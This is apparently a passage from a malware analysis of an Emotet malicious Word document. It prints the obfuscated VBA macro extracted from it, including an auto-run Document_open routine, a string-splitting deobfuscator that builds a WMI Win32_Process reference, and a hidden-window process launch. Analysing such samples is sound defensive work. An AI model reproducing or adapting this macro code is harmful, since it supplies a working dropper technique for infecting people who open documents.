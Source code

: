 Some vars like `Bkc5re_xxwma.Ptvl917_3fhv4ghbhb` does not exist within the current funct. But they appear in Forms document, so we need to replace them.

![Untitled](Emotet%20ea8f117c439849cc9ae79b7581446185/Untitled%202.png)

Next step, clean the code. 

```visual-basic
VBA MACRO S88ecjif1ml6 
in file: maldoc.doc - OLE stream: 'S88ecjif1ml6'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Document_open()
Wdggt43espeaai75g_ = Array(Tku0cz3_kk0tufj + "Vi4gxn59xnxkzzm15Rxleer34r5t8v Tobvo57prwmzbrlw9" + Skrxs1elp57_o, U3tlx2laojf13ppk, Bkc5re_xxwma.Xy1ql8qq3m9fwoxvz, W8khkof7lrcpbtr + "P7k0a_g9z8ir Y17elacettooplkjw Szsgtfms72msn Rdn3hl2todcn")
End Sub
-------------------------------------------------------------------------------
VBA MACRO Bkc5re_xxwma 
in file: maldoc.doc - OLE stream: 'Bkc5re_xxwma'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Function Xy1ql8qq3m9fwoxvz()
On Error Resume Next
G6_e19me06ggh9 = ", A :, A :w, A :i, A :nm, A :, A :gm, A :t, A :, A :" + "s" + ", A :, A ::, A :w, A :in, A :, A :3, A :2, A :_, A :" + "P" + ", A :ro, A :, A :ce, A :s, A :s, A :"
Rbgd8kh364erl = Jc1yuw7r38_4a5(G6_e19me06ggh9)
Set Ioyv20u9cnhfyah = CreateObject(Rbgd8kh364erl)
Ivvt_2x4qmasd8 = Q0cawbk07t3 + Rbgd8kh364erl + "startu"
Set Mmxw9h87r6ne0q_n5 = Jgcwzg_v1lujky5(Ivvt_2x4qmasd8 + "P")
Ioyv20u9cnhfyah.Create Dlhbagxwt5vvo7ur, Crdajectd75a_ze, Mmxw9h87r6ne0q_n5
End Function

Function Jgcwzg_v1lujky5(Aat9psb6y4z_4fy)
On Error Resume Next
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Set Jgcwzg_v1lujky5 = GetObject(Aat9psb6y4z_4fy)
Jgcwzg_v1lujky5. _
showwindow = wdKeyEquals - wdKeyEquals
End Function

Function Jc1yuw7r38_4a5(Brqcqtzjby3rhyk)
On Error Resume Next
Rkkl4izp8yq037 = CleanString(Brqcqtzjby3rhyk)
Lhene6fi97ra = Split(Rkkl4izp8yq037, ", A :")
Ox239biw5eyqve87i = Join(Lhene6fi97ra, D1vtk4ty75k5z)
Jc1yuw7r38_4a5 = Ox239biw5eyqve87i
```